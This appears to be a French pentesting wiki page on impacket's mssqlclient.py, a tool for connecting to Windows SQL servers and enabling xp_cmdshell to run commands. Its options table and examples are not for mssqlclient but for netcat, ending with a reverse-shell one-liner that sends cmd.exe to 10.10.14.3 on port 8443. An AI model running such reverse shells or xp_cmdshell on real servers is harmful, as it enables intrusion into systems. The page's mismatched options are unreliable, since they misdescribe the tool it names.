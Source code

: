 ```yaml
---
title: mssqlclient
description: mssqlclient est un programme python permettant de se connecter à un serveur SQL Windows. Il permet d'activer facilement l'option xp_cmdshell avec une simple commande, ce qui permet l'exécution de commandes depuis le client SQL.
published: true
date: 2024-07-13T09:21:17.857Z
tags: windows
editor: markdown
dateCreated: 2024-07-13T09:21:17.856Z
---
```




# Introduction

mssqlclient est un script python permettant de se connecter à un serveur SQL Windows. Il permet d'activer facilement l'option xp_cmdshell avec une simple commande, ce qui permet l'exécution de commandes depuis le client SQL.

> mssqlclient est disponible au téléchargement ici: https://github.com/fortra/impacket/blob/master/examples/mssqlclient.py
{.is-info}



# Syntaxe

`mssqlclient.py [domaine/utilisateur:mot de passe]@[Adresse] [options]`

# Options

| Option          | Description                                                         |
| --------------- | ------------------------------------------------------------------- |
| `-l`            | Mode écoute (listen), attendre une connexion entrante               |
| `-v`            | Mode verbose, affiche des informations supplémentaires              |
| `-p [port]`     | Spécifie un port d'écoute et aussi là où la connexion est transmise |
| `-e [commande]` | Spécifie la commande à éxectuer lorsqu'une transmission est établie |

# Exemples

Écoute sur sur le port 8080

`nc.exe -l -p 8080`

Envoi une connexion vers l'ip 10.10.14.3 sur le port 8443 qui éxecutera "cmd.exe" lors de l'établissement de la connexion

`nc.exe 10.10.14.3 8443 -e cmd.exe`
